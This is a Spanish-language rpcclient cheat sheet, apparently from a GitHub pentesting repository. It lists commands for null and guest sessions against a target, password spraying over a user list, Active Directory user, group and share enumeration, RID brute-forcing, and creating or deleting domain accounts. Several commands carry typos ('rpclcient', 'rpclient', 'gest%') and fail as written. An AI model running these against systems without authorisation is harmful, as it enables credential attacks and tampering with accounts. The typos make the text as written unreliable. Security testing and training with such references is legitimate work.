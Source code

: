 # RPCclient Cheat Sheet

#### Acceso con Null Session
```
rpcclient -U "" <IP-TARGET> -N
```

#### Acceso con usuario invitado
```
rpcclient -U "gest%" <IP-TARGET> -N
```

#### Acceso con autenticación
```
rpcclient -U "<USERNAME>%<PASSWORD>" <IP-TARGET> -N
```

#### Password Spraying - Conocer a través de una lista de usuarios cuales tienen acceso con una contraseña dada
```
for u in $(cat valid_users.txt);do rpcclient -U "$u%<PASSWORD>" -c "getusername;quit" <IP-TARGET> | grep Authority; done
```

#### Enumerar los Dominios
```
rpclcient -U "<USERNAME>%<PASSWORD>" <IP-TARGET> -c "enumdomains"
```

#### Enumerar los usuarios del AD
```
rpcclient -U "<USERNAME>%<PASSWORD>" <IP-TARGET> -c 'enumdomusers'
```

#### Enumerar los grupos del AD
```
rpcclient -U "<USERNAME>%<PASSWORD>" <IP-TARGET> -c 'enumdomgroups'
```

#### Mostrar los datos y descripción de un usuario
```
rpcclient -U "<USERNAME>%<PASSWORD>" <IP-TARGET> -c 'queryuser <USER>'
```

#### Enumerar los usuarios que son de un 'rid' grupo en especifico del Dominio
```
rpcclient -U "<USERNAME>%<PASSWORD>" <IP-TARGET> -c 'querygroupmem 0x200'
```

#### Mostrar la información de un usuario por su 'rid'
```
rpcclient -U "<USERNAME>%<PASSWORD>" <IP-TARGET> -c 'queryuser 0x1f4'
```

#### Mostrar la descripción de todos los usuarios
```
rpcclient -U "<USERNAME>%<PASSWORD>" <IP-TARGET> -c 'querydispinfo'
```

#### Mostrar la Politica de Contraseñas
```
rpcclient -U "<USERNAME>%<PASSWORD>" <IP-TARGET> -c 'getdompwinfo'
```

#### Crear un usuario del AD (Teniendo los privilegios necesarios)
```
rpclient -U "<USERNAME>%<PASSWORD>" <IP-TARGET>
rpcclient> createdomuser <username>
rpcclient> setuserinfo2 <username> 24 <password>
rpcclient> enumdomusers
```

#### Eliminar un usuario del AD
```
rpcclient -U "<USERNAME>%<PASSWORD>" <IP-TARGET> -c 'deletedomuser <USER>'
```

#### Enumerar los recursos compartidos
```
rpcclient -U "<USERNAME>%<PASSWORD>" <IP-TARGET> -c 'netshareenum'
```

#### Crear un Grupo de Dominio
```
rpcclient -U "<USERNAME>%<PASSWORD>" <IP-TARGET> -c 'createdomgroup <NEW-GROUP>'
```

#### Eliminar un Grupo de Dominio
```
rpcclient -U "<USERNAME>%<PASSWORD>" <IP-TARGET> -c 'deletedomgroup <GROUP>'
```

#### Obtener el SID de un usuario que sepamos que existe
```
rpcclient -U "gest%" <IP-TARGET> -c 'lookupnames <USERNAME>'

rpcclient -U "gest%" <IP-TARGET> -c 'lookupnames Administrator'
```

#### Saber el usuario proporcionando el SID 
```
rpcclient -U "gest%" <IP-TARGET> -c 'lookupsids <SID>'
```

#### Comando para Fuerza Bruta y conocer los usuarios que existen proporcioando el SID del usuario administrator y modificar los ulitmos digitos
```
seq 400 2000 | xargs -P 50 -I {} rpcclient -U "gest%" <IP-TARGET> -c 'lookupsids <SID>-{}' | grep -v unknown
```

---

[:arrow_left: Regresar](https://github.com/m4lal0/cheatsheets)